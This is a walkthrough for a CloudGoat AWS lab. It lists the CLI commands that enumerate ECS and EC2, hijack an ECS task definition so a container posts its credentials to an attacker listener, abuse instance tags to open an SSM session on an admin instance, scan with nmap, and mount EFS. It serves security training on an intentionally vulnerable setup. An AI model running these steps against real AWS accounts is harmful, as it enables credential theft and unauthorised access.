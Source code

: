 1. Connect to the start ec2 "Ruse_Box" using the public IP and SSH key provided.

    `ssh -i cloudgoat ubuntu@<IP ADDRESS>`

2. Configure the role credentials 

    `aws configure --profile ruse`

3. List the privileges 
`aws iam list-policies --profile ruse`

4. List ec2 instances 

    `aws ec2 describe-instances --profile ruse `

5. List all available ECS clusters 

    `aws ecs list-clusters --profile ruse`

6. List services in cloudgoat cluster

    `aws ecs list-services --cluster <CLUSTER ARN> --profile ruse`

7. Download task definition 

    `aws ecs describe-task-definition --task-definition <TASK_NAME>:<VERSION> --profile ruse > task_def.json `

8. Download template to register a new task

    `aws ecs register-task-definition --generate-cli-skeleton --profile ruse > task_template.json`

9. Now use task_def.json to fill out template.json with the desired payload. Reference our blog for details [here](https://rhinosecuritylabs.com/aws/weaponizing-ecs-task-definitions-steal-credentials-running-containers/)

10. Now register the template to replace the currently running task.

    `register-task-definition --cli-input-json file://task_template.json  --profile ruse`

11. Wait for the task to run and POST the credentials to your listener

12. With the new creds add them to "ruse_box"

    `aws configure --profile ecs`

13. Modify admin ec2 tags

    `aws ec2 create-tags --resources <INSTANCE ID> --tags Key=StartSession,Value=true`

14. Using ecs creds start a session on admin ec2 

    `aws ssm start-session --target <INSTANCE ID> --profile ecs`

15. Looking at the ec2 instances we see the admin ec2 only has a single port open. We Nmap scan this port.

    `nmap -Pn -P 2049 --open 10.10.10.0/24 `

16. Mount discovered ec2 

    `cd /mnt`
`sudo mkdir /efs`
`sudo mount -t nfs4 -o nfsvers=4.1,rsize=1048576,wsize=1048576,hard,timeo=600,retrans=2,noresvport <IP ADDRESS OF EFS>:/ efs`